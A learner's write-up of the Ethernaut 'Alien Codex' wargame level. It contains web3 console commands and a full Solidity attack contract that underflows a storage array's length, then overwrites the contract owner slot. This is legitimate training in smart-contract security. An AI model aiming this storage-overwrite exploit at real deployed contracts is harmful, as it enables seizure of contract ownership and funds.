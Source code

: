 ## Alien Codex

0. I skipped this because i did not know what steps to take so I went to Shop and Denial challenges first but I am writing this after completing ...

1. I was able to understand the contract but was not sure how to modify the owner. It was clear that i had to user record(), retract() and revice() and owner is from Ownable contract that is inherited. We need to call the make_contact() and switch contact to true so that we will be able to call the other functions. There is bytes32 array and it can be underflowed.

2. checking the owner = `await contract.owner()` '0x40055E69E7EB12620c8CCBCCAb1F187883301c30'
   checking storage at 0 slot `await web3.eth.getStorageAt(instance, 0)` '0x00000000000000000000000040055e69e7eb12620c8ccbccab1f187883301c30' , the same as owner but it has takes the last of 20 bytes of the slot

3. calling contact as discussed in step 1 `await contract.make_contact()` => then calling retract because after that our bytes array will have the length of last element that an array can hold `await contract.retract()`

4. I understood only bits and pieces by watching Z-sqaures video of alien codex and i won't go in much details here because his explanation is better so watching his video is recommended and followed him for the part because i want to know the vulnerability and not the attack to be gigabrain... maybe i will come back to this challenge to understand how was bytes array was used to manipulate owner as i understand.

5. `p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))`
   '0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6' => position of the 1st slot where the length of array is stored
   `i = BigInt(2\*\*256) - BigInt(p)` 35707666377435648211887908874984608119992236509074197713628505308453184860938n => position of owner => converting hashed value to BitInt, we are able to subtract back to slot 0 of codex arrayv `rewrote the converting line ... from video for reference when i come back`
   `content = '0x' + '0'.repeat(24) + player.slice(2)` '0x000000000000000000000000B7cA5Ae7FFcf1E7846e3C3eDc1bD36b7ff33810a' => the way address to be stored in the slot

   This step mostly prepared data for the next transaction.

6. Final transaction to claim ownership `await contract.revise(i, content, {from: player, gas: 900000})`

7. success

> some extra references from comments from the video for when i come back to this `https://www.youtube.com/watch?v=oGx-EvSsQbE`
> Ethernaut Alien Codex Solution `https://medium.com/coinmonks/ethernaut-alien-codex-solution-74e3b0ca592e`
> CeTesDev solution `https://github.com/CeTesDev/EthernautLevels/blob/main/alien-codex/contracts/Hacker.sol`
> R1oga solution `https://listed.to/@r1oga/13892/ethernaut-levels-19-to-21`
> Cq-blog (best solution) `https://coder-question.com/cq-blog/525391` does not work
> what he thought the best and indepth solution and explaination ... the link does not work :(
> CeTesDev solution github solution code in case the links change in future :)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./AlienCodex.sol";

contract Hacker {
  address public hacker;

  modifier onlyHacker {
    require(msg.sender == hacker, "caller is not the hacker");
    _;
  }

  constructor() public {
    hacker = msg.sender;
  }

  function attack(address _target) public onlyHacker {
    AlienCodex alienCodex = AlienCodex(_target);

    // 1. Make contact
    alienCodex.make_contact();

    // 2. Cause underflow of the length of codex
    alienCodex.retract();

    // 3. Now can access any slot of the storage
    // Calculate the index in codex array that is corresponding to the slot 0, where owner & contact exist at
    uint256 index = 2**256 - 1 - uint256(keccak256(abi.encode(1))) + 1;

    // 4. Overwrite the owner
    alienCodex.revise(index, bytes32(uint256(address(msg.sender))));
  }
}
```

> Challenge Inspiration (underhanded contest) -:https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079
